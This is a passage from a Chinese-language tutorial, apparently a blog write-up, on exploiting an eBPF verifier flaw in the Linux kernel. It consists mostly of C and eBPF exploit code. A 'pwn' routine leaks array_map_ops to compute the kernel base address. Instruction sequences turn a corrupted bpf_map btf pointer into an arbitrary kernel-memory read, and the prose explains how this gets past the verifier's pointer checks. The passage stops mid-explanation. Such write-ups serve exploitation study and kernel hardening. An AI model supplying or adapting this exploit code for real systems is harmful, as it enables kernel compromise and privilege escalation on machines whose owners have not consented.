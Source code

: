 ```c 
static void leak_info(uint64_t *buffer, int mapfd) {
    uint64_t key = 0;
    if (bpf_lookup_elem(&key, buffer, mapfd)) {
        __exit(strerror(errno));
    }
}

static void pwn(void) {
    ...
    execute_with_op(0);
    leak_info(ctrl_buf, ctrl_mapfd);
    uint64_t map_leak = ctrl_buf[2];
    printf("[+] leak array_map_ops:\t\t0x%lx\n", map_leak);
    kernel_base = map_leak - 0x1016480;
    printf("[+] leak kernel_base addr:\t0x%lx\n", kernel_base);
    ...
}

static void execute_with_op(uint32_t op) {
    ctrl_buf[0] = 0x2000000000 + 0x110;
    ctrl_buf[1] = op;
    bpf_update_elem(0, ctrl_buf, ctrl_mapfd, 0);
    bpf_update_elem(0, exp_buf, exp_mapfd, 0);
    execute();
}
```

在 Part 2 的末尾我们还需要得到 exp_buf 的地址用于后续 Part 4 的 map_ops 覆盖，在 `bpf_map` 的 0xc0 偏移处，有一个 wait_list 链表，其中第一个值就是一个指向自身的指针，所以我们可以通过读取这个值来得到 exp_buf 的地址：

```c
BPF_LDX_MEM(BPF_DW,BPF_REG_0,BPF_REG_7,0xc0),   // r0 = *(u64 *)(r7 + 0xc0)
BPF_ALU64_IMM(BPF_ADD,BPF_REG_0,0x50),          // r0 = r0 + 0x110 - 0xc0 = &exp_buf
```

这里不直接从最开始的 r7 得到地址是因为 r7 的类型是指针，verifier 不允许写入指针，而经过如此操作读取出来的是标量值，可以后续写入到 map_ops 中。

接下来 eBPF 的 Part 3 用于进行任意地址读：

```c 
// Part 3 (arbitrary read)
BPF_LDX_MEM(BPF_DW,BPF_REG_8,BPF_REG_6,0x8),    // r8 = *(u64 *)(r6 + 0x8) = op
BPF_JMP_IMM(BPF_JNE, BPF_REG_8, 1, 4),          // if r8 != 1 goto +4
BPF_LDX_MEM(BPF_DW,BPF_REG_0,BPF_REG_6,0x20),   // r0 = *(u64 *)(r6 + 0x20) = addr
BPF_STX_MEM(BPF_DW,BPF_REG_7,BPF_REG_0,0x40),   // *(u64 *)(r7 + 0x40) = r0 (bpf_map->btf = addr-0x58)
BPF_MOV64_IMM(BPF_REG_0,0x0),                   // exit(0)
BPF_EXIT_INSN(),
```

先读取 `ctrl_buf[1]` 作为参数 op，如果是 1 表示读、2 表示写、0 表示不读也不写（比如泄漏地址的时候执行的就是 `update_elem(0)` 设置 op 为 0 不读也不写）。然后如果 op 是 1，就会执行下面的代码。

接下来读取了 r6+0x20，也就是 `ctrl_buf[4]`，我们令这个参数为 target-0x58，然后存入 r0 寄存器中，接下来存入 r7+0x40，r7 是 bpf_map 的开头，所以 0x40 偏移处就是 btf 指针的位置。接下来通过调用 `bpf_map_get_info_by_fd` 就可以触发任意地址读，读取出 target 处 32 位的值：
